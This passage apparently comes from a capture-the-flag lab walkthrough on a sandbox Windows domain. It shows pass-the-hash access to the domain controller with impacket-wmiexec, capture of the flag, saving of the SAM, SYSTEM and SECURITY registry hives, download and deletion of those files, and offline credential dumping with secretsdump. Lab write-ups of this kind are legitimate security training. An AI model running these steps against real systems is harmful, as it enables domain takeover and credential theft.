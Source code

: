 ![Screenshot](14.6/image2.png)
10. To recover the password of the machine account, we need to extract it from the Windows registry, for which we can connect to the domain controller using the wmiexec tool, which is used to execute commands on a remote Windows system via WMI (Windows Management Instrumentation).
```bash
$ impacket-wmiexec -h
```
11. Specify the previously received administrator hash, get the first flag and check the rights after connecting:
```bash
$ impacket-wmiexec -hashes <hash> 'sandbox.local/administrator@192.168.0.178'

C:\> whoami

C:\r>cd C:/users/administrator/desktop/
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3052-8B43

 Directory of c:\users\administrator\desktop

03/23/2023  05:20 AM    <DIR>          .
03/23/2023  05:20 AM    <DIR>          ..
04/14/2023  04:13 AM                26 root.txt
               1 File(s)             26 bytes
               2 Dir(s)  50,944,700,416 bytes free

c:\users\administrator\desktop>type root.txt
6p7ne9bk90z7yozcv5c8etx9bz
C:\users\administrator\desktop>
```
12. Save the registry branches of interest to us in separate files:
```bash
C:\> reg save HKLM\SYSTEM system.save

C:\> reg save HKLM\SAM sam.save

C:\> reg save HKLM\SECURITY security.save

13. Download these files to the local machine:

C:\>lget system.save

C:\>lget sam.save

C:\> lget security.save
```
And let's remove them:
```bash
C:\> del /f system.save security.save sam.save
```
14. Locally analyze these files using impacket-secretsdump:
```bash
$ impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```